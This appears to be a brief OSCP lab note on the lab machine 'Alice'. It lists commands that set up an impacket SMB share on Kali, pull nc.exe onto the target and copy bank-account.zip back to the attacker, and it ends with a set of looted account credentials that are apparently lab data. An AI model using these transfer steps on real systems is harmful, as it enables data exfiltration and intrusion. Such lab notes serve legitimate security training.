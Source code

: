 # OSCP
## Lab Machines
### Alice 10.11.1.5

On Kali:
```
impacket-smbserver richeeta .
```
to create the SMB server.

On Alice:
```
net use * \\IP\\richeeta
```

Then on Alice:
`copy z:\nc.exe` to bring nc.exe from Kali to Alice and
`copy c:\bank-account.zip z:\bank-account.zip` to move bank-account.zip from Alice to Kali

Bank	Gold Swiss
Acct #	2342364-KIETGGE-298074
SWIDF ID	swisgi
Reg Username	bobw@acme.local
Acct Password	3v1lp@ss
